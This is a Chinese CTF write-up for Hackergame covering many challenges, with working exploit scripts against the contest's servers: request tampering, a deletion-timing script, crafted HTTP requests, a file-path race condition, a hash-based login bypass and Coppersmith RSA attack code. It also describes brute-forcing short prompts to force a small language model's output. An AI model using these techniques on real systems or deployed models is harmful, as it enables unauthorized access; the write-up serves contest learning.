






# Hackergame 题解 by Das Schloss

## 前言

今年是来玩 Hackergame 的第三年了，这三年一直保持着打死不交 flag 的~~优良传统~~，前两年基本做不出啥题，今年前几天都没空打，属于半程入场的，本来想能进前十就把 flag 都交了，结果一算只有 6200 分，才第 12 （不过如果能把我卡住的希尔第三问做出来就能第 10 了），所以就算了，不过今年 writeup 还是打算写一个的，写 writeup 的过程也是重新复习解题思路和知识的过程（

打 hackergame 还是能学到很多东西的，明年有机会再来吧（

## Hackergame 启动

点击提交能看到网址栏多了个`/?similarity=`，简单一试，加上一个 1 之后显示相似度大于 99.9% 才能通过，所以直接把 similarity 改成 100 ,就搞到 flag 了

## 猫咪小测

今年是第一次把猫咪问答全解出来，希望以后都按这个难度出（不是

1. 根据我在自己学校每年借几十本书~~但都看不完~~的经验，妮科肯定也有中科大图书馆官网，进入 https://lib.ustc.edu.cn 查找 A Classical Introduction To Modern Number Theory （浏览次数 1105 ，好多 hackergame player ），发现西区全在外文书库，然后官网查下馆藏分布，在第 12 层





2. 百度上一搜就搜到了，怎么会是呢？所以是 23



3. 以`linux BBR CONFIG_`之类的作为关键词，就能在一堆网站上看到相关内容，答案是 CONFIG_TCP_CONG_BBR



4. 在谷歌上搜了 `MyPY dead loop paper`， 找到了这个 [Python Type Hints Are Turing Complete](https://drops.dagstuhl.de/opus/volltexte/2023/18237/pdf/LIPIcs-ECOOP-2023-44.pdf) ，因此是 ECOOP

话说百度上搜到了难绷的东西


## 更深更暗

F12 大法，看到一艘船，上面有 flag ，然后就结束了



## 旅行照片 3.0

今年的旅行照片是真难啊真难（虽然每年都很难就是了），花了我一整天做，今年的题目描述比较具有歧义性，好多读都读不懂，总之就是做得非常痛苦，下面就分享一下坎坷的做题历程

首先先看到这个明晃晃的奖牌，第一感觉就是诺贝尔奖，一查还真是，物理学的奖牌，拥有者是 M Koshiba ，也就是小柴昌俊，东京大学的，再综合其他图片众多线索，那学长 1000% 就是去东大了

然后第二小问是问最小的获此奖牌的人所在研究所，一查是梶田隆章，所在单位是 ICRR

至于日期是实在想不出咋搞，不过暑假这么短，爆一下很快的，得到 2023-08-10

得到日期之后，马上开始看 3 和 4 两问， 3 的这个地方查一下可以知道是上野公园，在 X 上搜一下（限定时间在 8/10 附近），发现是个梅酒祭，去官网 https://umeshu-matsuri.jp 一搜，发现六月份有发过问卷，所以就解决这一小问了


然后去找上野公园旁边这个东京国立博物馆的官网 https://www.tnm.jp ，找来館案内里的料金，大学生 500 日元，普通游客 1000 日元，开开心心地输进去提交，错了，我心想不会有啥活动零元购吧，看了好久当天没活动啊，就很疑惑，但是还是输了个 0 进去，发现对了


后来又在这个官网上找了一会儿，在料金界面还有几个分界面，其中 campus members 这个界面里告诉我们，包括东大在内的 78 所高校享受“総合文化展の無料観覧”，所以还真是零元购

最痛苦的做题过程还是集中在 5, 6 小问上。搜索`ボタン＆カフリンクス JR上野`，第一个是 https://plaza.rakuten.co.jp/ayumilife/diary/202308070000 ，某个乐天超市的 blog ，某粉红背景熊猫海报映入眼帘， solved


至于这个 3D 动物报时，在网上能搜到一堆营销号，综合各个网站可以发现，日本动物报时主要就是涩谷派的秋田犬和新宿派的三花猫，但是上野这边是完全没有相关新闻啊，我直接傻了，直接 QQ 联系了一位在东大留学的同学，问问他有没有看到过，对此他的回答是：从来没去过上野站（哭哭）

然后转头开始搞第五小问，首先这题的语文表述就很奇怪，什么叫学长继续学术之旅，乘船欣赏夜景和彩虹大桥，然后晚上还要集合，那不管，之前网上找到东京水上巴士的乘船地图，一看，上野附近根本没有乘船点，没事，把所有乘船点及附近的标志性建筑物全遍历一遍，然后，就爆了，难道集合点不是乘船点吗？

目前，第五小问完全没有头绪，第六小问的动物还不能确定，至少得是个二选一，所以我认为，有几张完全没用到的图片（说的就是你，拉面店和超级玛丽）里肯定有隐藏信息。先找找超级玛丽，随便一搜发现是东京涩谷 parco 的任地狱旗舰店（此时我还没有意识到有什么重要的东西），找找有没有涩谷这边的任天堂 x 游船活动，哎，您猜怎么着，没有/(ㄒoㄒ)/~~

那我看看，拉面店这张图里有什么……哎？学长晚上要学术，还要游船，有没有可能，这两件事其实是一件事😰一眼看到学长背了个东西，带子上面有字，一查是个统计物理会议（学长晚上偷偷搞学术不叫我是吧😡），进官网 https://statphys28.org 看看 8/10 晚上大伙们都去干啥了，一看是去船上~~开趴~~晚宴了，终于让我找到了，学长今晚要在东大的 Yasuda Auditorium 集合，然而这玩意儿网上的中文翻译有安田礼堂和安田讲堂两种，一开始填了个错的，还以为我啥地方又搞错了，还好只是翻译的锅hhh


比赛结束之后，我在群里问上野站的秋田犬是怎么找到的，大伙们回我：不是上野啊，题目问的是“出站口的动物”，所以就是涩谷站的，哈哈哈我语文不好，饶了我吧😭

自己做 OSINT 题目以及看别人的解题过程都很好玩，但是做不出题就不好玩（不是

## 赛博井字棋

Burp Suite 抓包，发现会传过去坐标，试着传过去一个对手已经下好的位置，就直接三子连珠，结束战斗了

## 奶奶的睡前 flag 故事

之前有做过类似的题目（指路复旦 \*CTF 2023 - snippingTools），这道是纯纯搜索题，用谷歌『亲儿子』截的图，网上一找是 pixel screenshot 的问题，找到一个网站 https://acropalypse.app ，直接传进去就解决了


## 组委会模拟器

还是先 Burp Suite 抓包，发现首先会进行一个 getMessages 的请求，服务器会传回所有消息以及 timestamp ，然后删除消息会发包 deleteMessage ，拿 flag 请求 getflag ，那么只要先用正则找出需要撤回的消息，然后到点发包撤回它，最后 getflag 就行了

```python
import requests
import json
import re
import time
import tqdm

headers = {
'Content-Length': '0',
'Accept': 'application/json, text/plain, */*',
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36',
'Accept-Encoding': 'gzip, deflate, br',
'Accept-Language': 'zh-CN,zh;q=0.9',
'Cookie': 'session=xxxxx',
'Connection': 'close'} # cookie里的session自己换

r = requests.post('http://202.38.93.111:10021/api/getMessages', headers = headers)

res = r.text

m = json.loads(res)

fom = "%Y-%m-%dT%H:%M:%S.%f%z"

timestamp = time.mktime(time.strptime(m['server_starttime'], fom)) + 28800

mes = m['messages']

delete = []

for i in range(1000):
    temp = mes[i]['text']
    # print(temp)
    if(re.search('hack\[[a-z]+\]',temp)):
        delete.append(i)

print(len(delete))

for i in tqdm.tqdm(delete):
    tm = timestamp + float(mes[i]['delay'])
    while True:
        if tm < time.time() < tm + 3:
            rd = requests.post('http://202.38.93.111:10021/api/deleteMessage', headers = headers, json = {"id": i})
            #print(rd.text)#print(json.loads(rd.text))#["error"])
            break

rf = requests.post('http://202.38.93.111:10021/api/getflag', headers = headers)

print(rf.text)
```

## 虫

一眼 SSTV （网上查些资料能查到的），下载一些软件进行一个声音的听，当时虚拟声卡花了我好久时间才搞定，然后就能读图片了（ writeup 里就不放截图了，问就是一做完软件就删了，截图都没存）

## JSON ⊂ YAML?

怪题，纯纯特性题

第一小问用一个科学表达式来搞，`{"1":234e3}`， json 会认为这是个数，但 yaml 1.1 会认为这是个字符串

第二小问是我网上不知道哪里找到的说 yaml 不支持相同名字的键值，第一问的时候发现是可以解析的，第二小问试了一下，果然报错了，所以就是`{"s":111,"s":112}`就行了

## Git? Git!

也是搜索题，`git reflog`能找到被撤销的 commit ，然后`git reset --hard 505e1a3`把 commit 内容拿出来，没想到我因为眼神不好，找了半天 flag 找不到，还以为我哪做错了，最后发现是在 md 的中间位置

## HTTP 集邮册

按着 MDN 上面关于状态码的描述来试，下面是我的构造

```html
# NO
GET / \r\n
Host: example.com\r\n\r\n

# 100
GET / HTTP/1.1\r\n
Host: example.com\r\n
Expect: 100-continue\r\n\r\n

# 200
GET / HTTP/1.1\r\n
Host: example.com\r\n\r\n

# 206
GET / HTTP/1.1\r\n
Host: example.com\r\n
Range: bytes=0-9\r\n\r\n

# 304
GET / HTTP/1.1\r\n
Host: example.com\r\n
If-Modified-Since: Tue, 15 Aug 2023 17:03:04 GMT\r\n\r\n

# 400
GET HTTP/1.1\r\n
Host: example.com\r\n\r\n

# 404
GET /111 HTTP/1.1\r\n
Host: example.com\r\n\r\n

# 405
POST / HTTP/1.1\r\n
Host: example.com\r\n\r\n

# 412
GET / HTTP/1.1\r\n
Host: example.com\r\n
If-Unmodified-Since: Tue, 15 Aug 2023 17:03:02 GMT\r\n\r\n

# 413
GET / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 1000000000\r\n\r\n

# 414
POST /A*1000 HTTP/1.1\r\n
Host: example.com\r\n\r\n

# 416
GET / HTTP/1.1\r\n
Host: example.com\r\n
Range: bytes=50000-50999\r\n\r\n

# 505
GET / HTTP/2\r\n
Host: example.com\r\n\r\n
```

501 比赛时搞不出来，但现在懂了（大概

## Docker for Everyone

也是怪怪的题，把 flag 文件直接 mount 进来就行了

`docker run -it --mount type=bind,source=/flag,target=/flag --rm alpine`

## 惜字如金 2.0

今年的惜字如金好简单，认清“flag{}”这几个字符的位置，得到这行中被省略的符号的可能位置，发现符合条件的加入位置对flag无任何影响（其实仔细一想，要想满足有唯一解，加的字母还真就不能在 flag 的取值范围内，所以加哪都可以），因此直接恢复出 flag

## 🪐 高频率星球

这题下载一个 asciinema ，执行`asciinema cat > flag.js`，然后把垃圾全去掉就行（主要是代码前后的那些操作得删了，代码里的那些切屏相关的字符也得删了）

## 🪐 小型大语言模型星球

这道题好难，只做出了前两问

第一问简单试一下能发现模型大概率会输出回复你输入的文字，所以直接问`Am I smart?`

第二问，由于题目只限制了 7 个字符，很容易就能想到，可以进行爆破， accepted 是个双 token 的单词，而且从语法上来说 ed 等于是送的，所以概率一定很大，然后就开爆，可惜我的电脑没有显卡，一秒钟只能爆两个，不过也就爆了一个小时就出来了`aamo`

后面两问虽然没做出来，但还是聊聊（毕竟花了我将近一整天时间想这道题），之前很早就找到了官方 WP 里提到的那个 LLM Attack ，但是电脑不太行，水平也有限，就没往这条路走，然后就开始乱试了，偶然间试了这么句话，让我惊呼，原来这个 TinyStories 还会说点中文（不过给它🐮文字它还是说不了🐮文）



后来又去看官方库和官方论文，发现了个 TinyStoriesInstruct ，但是还是单输入的，一点用没有，然后又打算用一些传统 AI （指退火）搞这道题，但想了想这个 TinyStories 用的 GPT-Neo 训练的，退火不了一点，就放弃了，没想到最后官方 WP 里真就说退火可以解

## 🪐 流式星球

简单来说题目就是把一个视频给一维化了，还贴心地去掉了最后的不知道多少比特的信息，想法就是把当前 array 长度 + 1 ~ 100 的所有被 3 整除的素因数分解（去掉一些有很大因数的），然后手动试图片的宽和高，其中宽最为重要，高随意选一个大点的就行，最后试出来是 (139, 759, 427)
```python
import numpy as np
from PIL import Image
from tqdm import trange

f = open("video.bin","rb")
y = np.fromfile(f, dtype = np.uint8)
y = np.append(y, [0] * 93)

f.close()

count = 139
h = 759 # 3 * 139
l = 427 # 7 * 61

for k in trange(count):
    image1 = Image.new("RGB",(l, h),(255,255,255))

    for i in range(h):
        for j in range(l):
            image1.putpixel((j,i),(y[3*(h*l*k+i*l+j)],y[3*(h*l*k+i*l+j)+1],y[3*(h*l*k+i*l+j)+2]))

    string = "doc\\" + str(k).rjust(3,'0') + ".jpg" # png太占容量了，区别不大，能看清图就行
    image1.save(string)
```


（所以怎么还是 MyGo 啊😡，能不能来点 Ave Mujica （不是

## 🪐 低带宽星球

这道题前后两问难度跨越过大，第二问人做傻了还是只能搞出来 100+ bytes ，哭了

第一问就随便网上找个网站压缩一下就行，或者自己写的话把所有颜色信息扔调色板里，大小至少能省 1/3

第二问虽然没做出来，但也说一下我自己的解题过程，一开始以为是个 png 压缩题，改 filter mode 啥的，但一看这个文件头大小就觉得不可能，然后就试着用 svg ，然后再 gz 一下变成 svgz ，这样搞下来可以做到 103 bytes （用 path 可能会更小，但已经没意义了，肯定到不了 50 bytes ）

```html
<svg width="1024" height="1024"><rect width="1024" height="1024" fill="#2F4B96"/><rect width="712" height="1024" fill="#4E65F9"/><rect width="366" height="1024" fill="#63D2AC"/></svg>
```

当然，我后来又跟着官方 WP 搞了一下 JPEG XL 的实现，正好 49 bytes ，下面是脚本

```python
from PIL import Image

img1 = Image.open("image.png")

b = []

c = [img1.getpixel((0,0))]

for i in range(1023):
    if(img1.getpixel((i,0)) != img1.getpixel((i+1,0))):
        b.append(i)
        c.append(img1.getpixel((i+1,0)))

s = f"""if x > {b[1]}
  if c > 1
    - Set {c[2][2]}
    if c > 0
      - Set {c[2][1]}
      - Set {c[2][0]}
  if x > {b[0]}
    if c > 1
      - Set {c[1][2]}
      if c > 0
        - Set {c[1][1]}
        - Set {c[1][0]}
    if c > 1
      - Set {c[0][2]}
      if c > 0
        - Set {c[0][1]}
        - Set {c[0][0]}"""

print(s)
```

## Komm, süsser Flagge

这道题前两问迷迷糊糊就解决了，主要就是 POST 得从中间分开发两个包，然后第二问又正好可以用第一问的 payload 解决，第三问理应要通过自己写一个包实现，但计网确实不太熟，就没做了

```python
from pwn import *
from time import *

p = remote("202.38.93.111", 18081)

p.send(b"PO")

sleep(1) # 我也不知道为啥得延时一会儿才能成功

p.send(b"""ST / HTTP/1.1
Host: 127.0.0.1
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 100
Content-Type: application/x-www-form-urlencoded

xxxxxxxxx""".replace(b"\n",b"\r\n"))

# xxx 换成自己的 token ，实在不行可以先 nc -lvvp 80 后再 curl -X POST -d " 你自己的 token " 127.0.0.1

p.interactive()
```

## 为什么要打开 /flag 😡

两问难度区分度还是很大的，后面那一问的 rust 代码约等于看不懂

第一问看到代码几乎限制了所有有用的系统函数调用，但是——我直接静态链接你不就管不着了吗，所以直接`gcc --static elf.c -o elf`解决

```c
#include <stdio.h>

int main()
{
    char flag[1024] = "";
    FILE *fp = fopen("/flag", "r");

    fscanf(fp, "%s", flag);

    printf("%s", flag);

    return 0;
}
```

第二问理论上我是死都做不出的，但是某 hg 神秘势力在去年自己学校的校赛上也出了个类似的~~零解~~题，比赛结束后连 WP 都发我了，所以简单改一下就能开打了（呜呜不会被查重吧🥺哦我 flag 都没交，那没事了🤗）

代码就不贴了，要是以后某 hg 神秘势力还想把这道题放到什么国际赛事上，我就要被制裁了，但还是能简单解释一下打法的（其实代码和官方 WP 差不多，就是那题更难，又加了很多特异性的绕过代码）

这道题最主要的是， rust 代码查询 open 函数所打开的 path 中是否含有 flag 字样，如果有就替换成 fakeflag ，但是很容易发现这个操作完全不是原子的，那么，如果我写一个多线程程序，一直在改变这个 open 读取的 path ，让它一会儿是 "/flag"，一会儿是一个非法路径，那么有概率，一开始 rust 检测到一个非法但不带 flag 的路径，结束检测后，路径又被改回 /flag 了，那么 flag 文件的内容就能被拿出来了，当然，如果非法路径通过检测后没来得及被改回去，这样的话 open 返回错误返回值，那就再循环一次，但如果 /flag 没被改直接被 rust 拦了，那就只能重开了，我大概重开了 3 次就成功偷到 flag 了，问题不大

## 异星歧途

怪怪怪，这题太怪了，当时做到快早上六点，气都气死了，做完就立马睡了一会儿，然后赶早课去了

这道题主要分四个板块

前两个板块看那个处理器里的代码，第一板块就是纯的告诉你哪个应该开，哪个应该关，问题不大，第二板块需要仔细理解下代码，可以发现，满足要求的开关状态，应该是第一位和第六位为 1 且 8 个开关组成的数是一个平方数，那么简单遍历一下发现是 196

第四个板块问题也不大，虽然这个电路乱七八糟，但能猜出来，有些是与非门，有些是与门之类的，反正自己简单试一试，很快就能到达终点

最想吐槽的是第三板块，什么玩意儿啊😭每次一点就开炸，每次一点就开炸，半夜做这部分越做越气，这里总结一下我的结论：10001100

- 1 是用来开炉子的，虽然一开始一点就炸，但当冷却液配备好之后点开它就能供电了，所以得是开着的

- 2 控制的 gate 1 似乎啥用都没，完全搞不明白（后来发现好像开着的话蓝色块块就过不去了，所以得是关着的）

- 3 必须得关着，只有关着才能使得这个反应堆正常工作

- 4 必须得关上，否则蓄不了水

- 5 得开着，用来生成冷冻液

- 6 也得开着，得抽水，否则冷冻液也做不出

- 7 不知道干啥用的，开着的话有个电磁包围圈会变小，但似乎也没啥用

- 8 和第二板块的格子有关系，如果两者不等这个玩意儿会直接炸掉，所以 8 必须一直保持关闭状态

目前有两个不确定的，那就乱试，当我依次点亮四个板块后，最终反应堆……没动😰定睛一看第二板块出锅了，它不供电了，似乎是水抽不上来导致的，也不知道到底咋回事，就直接哭了

这时，我的 2 和 7 全是关的，我实在绷不住了，就在验证网站上提交了一下当前的状态，没想到它直接给我弹出来了个 flag 😧

比赛结束后看了下官方 WP ，这个 meltdown 开着会偷偷耗电，使得最后这个系统缺电动不了，所以确实得关掉，但我还是不明白为啥我的板块二动不了了，哭了

总之，这道题做得十分痛苦，明年出点简单游戏题吧求求了🥺

## 逆向工程不需要 F5

打开题目，发现有一个 exe 和 16 个 dll ，用 IDA F5 一下，发现重要函数都在 dll 里面（字符串也在），所以直接选择动调

调试的基本方法就是，在每个 dll 函数的调用处下个断点，然后看 dll 都干了些什么，特别是要注意，如果 dll 的函数操作了你输入的 flag ，那绝对是超关键函数

经过漫长的调试，最终得到了整体的加密逻辑，首先是验证输入是否是 "flag{xxx}" ，括号中间有 32 个字符，然后对中间这 32 个字符进行如下操作：

1. 将输入分为每 16 字节一组，每一组乘以 0x55aa00ff * 0x55aa00ef * 0x55aa00df * 0x55aa00cf

2. 将输入分为每 8 字节一组，每一组异或 0x7a026655fd263677

3. 将输入分为每 4 字节一组，每一组乘以 0xdeadbeef * 0xdeadbeeb * 0xdeadbee7 * 0xdeadbee3

4. 将输入分为每 2 字节一组，每一组异或 0xcdec

5. 将输入分为每 1 字节一组，每一组乘以 0x21 * 0x23 * 0x25 * 0x27

那么，解密脚本也就呼之欲出了

```cpp
#include <cstdio>
#include <iostream>

using namespace std;

int main()
{
	int i = 0;
	unsigned char enc[33] = {159, 135, 215, 139, 22, 153, 45, 2, 209, 100, 59, 224, 153, 1, 222, 2, 207, 44, 30, 134, 212, 199, 191, 159, 34, 220, 31, 189, 167, 241, 142, 71, 0};
	unsigned char inv1[4] = {225, 139, 173, 151};
	unsigned short int xor1 = 0xcdec;
	unsigned int inv2[4] = {2420846607, 2912942531, 592213207, 2153739979};
	unsigned long long int xor2 = 0x7a026655fd263677;
	__uint128_t inv3[4] = {0xaf0fa4a6810cef9a, 0x4e6c3d6f66506b34, 0x81dba432baaeae1d, 0xf565a562a0927e67};
	__uint128_t inv3_2[4] = {0xa0ec54715554feff, 0x1318cc8b91112e0f, 0x64596c772419bb1f, 0x125f2591292b062f};
	for(i = 0; i < 4; i++)
	{
		inv3[i] <<= 64;
		inv3[i] += inv3_2[i];
	}
	
	for(i = 0; i < 32; i++)
	{
		for(int j = 0; j < 4; j++)
		{
			*((unsigned char*) enc + i) *= inv1[j];
		}
	}
	
	for(i = 0; i < 16; i++)
	{
		*((unsigned short int*) enc + i) ^= xor1;
	}
	
	for(i = 0; i < 8; i++)
	{
		for(int j = 0; j < 4; j++)
		{
			*((unsigned int*) enc + i) *= inv2[j];
		}
	}
	
	for(i = 0; i < 4; i++)
	{
		*((unsigned long long int*) enc + i) ^= xor2;
	}
	
	for(i = 0; i < 2; i++)
	{
		for(int j = 0; j < 4; j++)
		{
			*((__uint128_t*) enc + i) *= inv3[j];
		}
	}
	
	cout << enc << endl;
	
	return 0;
}
```

## O(1) 用户登录系统

怪怪怪的 math 题，非常 general ，这道题简单来说就是，你的输入被 hash 之后会给你一个 proof ，证明你是这个人，但是对于最后 admin 的验证，其 proof 可以是两组的，那么，如果你的 admin:xxx 的 hash 结果是个本来就能被 import 的（换句话说， hash 结果是 xxx:xxx ），那么你只要构造一个 hash(admin:xxx) + random_string 输入和一个任意的输入，记录下前一个的 proof ，然后验证时使用 admin:xxx:(randomstring + proof).hex() 就可以把这道题搞定了

爆破脚本：

```python
from itertools import *
from string import *
from hashlib import sha1

for i in range(6):
    for m in product(printable, repeat = i):
        string = "".join(m).encode()
        try:
            m2 = sha1(b"admin:"+string).digest()
            m2 = m2.decode().encode()
        except:
            continue
        if(":" in m2.decode()): # 其实还可以加点其他性质帮助筛选，如冒号只有一个，如不能出现回车，如上面循环的时候字符串里就不应该有冒号，但是眼睛自己筛选其实已经完全够了
            print(string)
            print(m2.decode())
```

交互脚本：

```python
from pwn import *

r = remote('202.38.93.111', 10094)

r.recvuntil(b'Please input your token:')
r.sendline(b'xxx') # 你自己的 token please

r.recvuntil(b'Choice: ')
r.sendline(b'1')

r.recvuntil(b'> ')
r.sendline(b"'M(!}M:\xd9\xad1-\x12Z\x0bkxFODywb\x0b\x01{E\xc3\x8e\x12h?\x10\x1a_)vM`\x07\x13")

r.recvuntil(b'> ')
r.sendline(b"a:r5")

r.recvuntil(b'> ')
r.sendline(b"EOF")

r.recvuntil(b'Choice: ')
r.sendline(b'2')

r.recvuntil(b'credential: ')
r.sendline(b"admin:3zA!:77620b017b45c38e12683f101a5f29764d600713a9066653a8c707f00288f502c286e13a069fc131")

r.interactive()
```

## 黑客马拉松

这是道怪异 coppersmith 题，你需要构造出一些很容易被 coppersmith 的 e 值，才能解决这道题

第二问比第一问简单，观察你有的信息，初始 state 右移 k 位，然后 RSA 一下，再把最后的 k 位给你，需要你恢复出 RSA 加密后的那个数

观察到随着 e 的变大， k 的值不断增大直至到达 96 ，那么原题就变成了在 Zmod(n) 中一个很小的数（ 96 bits ）的 e 次方等于某个数 + 另一个小数（也是 96 bits ）左移 928 bits

现在，我们可以初步判断，这是道多元 coppersmith 了，但是多元的coppersmith 如果次数太高会求不出，所以 e 越小越好

这时，我们回想一下 RSA 的数学原理， m ^ phi == 1 (mod n) ，而 m1 % n == m2 % n 成立时， m1 % p == m2 % p 也是完全成立的，那么，只要你在 GF(p) 上进行这道题的运算，再将 phi 设为 phi(p) = p - 1 ，那取 e = phi(p) + 1 = p ，得到 s1 ^ e == s1 == (s2 << 928) + leak (mod p) ，其中 leak 是你刚拿到的信息， s1 和 s2 是你要求的值，那么这道题就被约化为了一道小变量的同余线性方程，你可以自己构造格来做，也可以简单利用一下多变量 coppersmith 的脚本打

```python
from sage.all import *
from Crypto.Util.number import *
from pwn import *
import itertools

# next part is just the way to generate p & q

'''
for i in range(2000):
	p1 = getPrime(170)
	p2 = getPrime(171)
	p3 = getPrime(171)
	p = p1 * p2 * p3 * 2 + 1
	if(is_prime(p)):
		print(p1,p2,p3,p)
		print(int(p).bit_length()) # (p*q).bit_length() == 1024
'''

def small_roots(f, bounds, m=1, d=None):
        if not d:
                d = f.degree()

 
        R = f.base_ring()
        N = R.cardinality()
        
        f /= f.coefficients().pop(0)
        f = f.change_ring(ZZ)
 
        G = Sequence([], f.parent())
        for i in range(m+1):
                base = N**(m-i) * f**i
                for shifts in itertools.product(range(d), repeat=f.nvariables()):
                        g = base * prod(map(power, f.variables(), shifts))
                        G.append(g)
 
        B, monomials = G.coefficient_matrix()
        monomials = vector(monomials)
 
        factors = [monomial(*bounds) for monomial in monomials]
        for i, factor in enumerate(factors):
                B.rescale_col(i, factor)
 
        B = B.dense_matrix().LLL()
 
        B = B.change_ring(QQ)
        for i, factor in enumerate(factors):
                B.rescale_col(i, 1/factor)
 
        H = Sequence([], f.parent().change_ring(QQ))
        for h in filter(None, B*monomials):
                H.append(h)
                I = H.ideal()
                if I.dimension() == -1:
                        H.pop()
                elif I.dimension() == 0:
                        roots = []
                        for root in I.variety(ring=ZZ):
                                root = tuple(R(root[var]) for var in f.variables())
                                roots.append(root)
                        return roots
        return []

